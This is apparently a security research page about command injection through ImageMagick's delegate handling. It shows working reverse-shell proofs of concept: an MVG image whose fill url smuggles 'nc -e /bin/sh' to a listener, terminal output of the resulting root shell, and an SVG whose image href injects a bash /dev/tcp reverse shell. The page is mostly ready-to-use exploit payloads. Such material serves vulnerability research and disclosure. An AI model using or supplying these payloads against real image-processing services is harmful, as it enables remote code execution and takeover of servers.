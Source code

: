 
## Exploitability assessment --- reverse shells

Taking the MVG shell leakage vulnerability further, @shin has shared a number of remote shell focused proof of concepts that leverage a variety of options depending whats available on the target host.

For all the following samples, a netcat listener is running on the kali attacker host.

    root@kali:~# nc -l -p 443

Also, for convenience the 6.9.2-10 build of the ImageMagick `convert` and `identify` utilities is set as two shell variables:

    root@kali:~# export CONVERT=/root/Downloads/ImageMagick-6.9.2-10/utilities/convert
    root@kali:~# export IDENTIFY=/root/Downloads/ImageMagick-6.9.2-10/utilities/identify


### Netcat reverse shell with an MVG image input

    root@kali:~/git/PoCs# cat > shell.mvg
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "127.0.0.1" "443)'
    pop graphic-context

Run it:

    root@kali:~/git/PoCs# $CONVERT shell.mvg out.png
    ^C    <------ netcat connection
    convert: unrecognized color `https://example.com/image.jpg"|nc...
    convert: delegate failed `"curl" -s -k -L -o "%o" "https:%M"' @...
    convert: no decode delegate for this image format `HTTPS' @ err...
    convert: non-conforming drawing primitive definition `fill' @ e...

While over on the remote netcat listener:

    root@kali:~# nc -l -p 443
    uname -a
    Linux kali 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
    whoami
    root



### Bash reverse shell with an SVG image input

    <?xml version="1.0" standalone="no"?> 
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
    "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"> 
    <svg width="640px" height="480px" version="1.1" 
    xmlns="http://www.w3.org/2000/svg" xmlns:xlink= 
    "http://www.w3.org/1999/xlink"> 
    <image xlink:href="https://deadbeef.org/nop.jpg&quot;|bash -i &gt;&amp; 
        /dev/tcp/127.0.0.1/443 0&gt;&amp;&quot;1" x="0" y="0" height="640px" width="480px"/> 
    </svg>

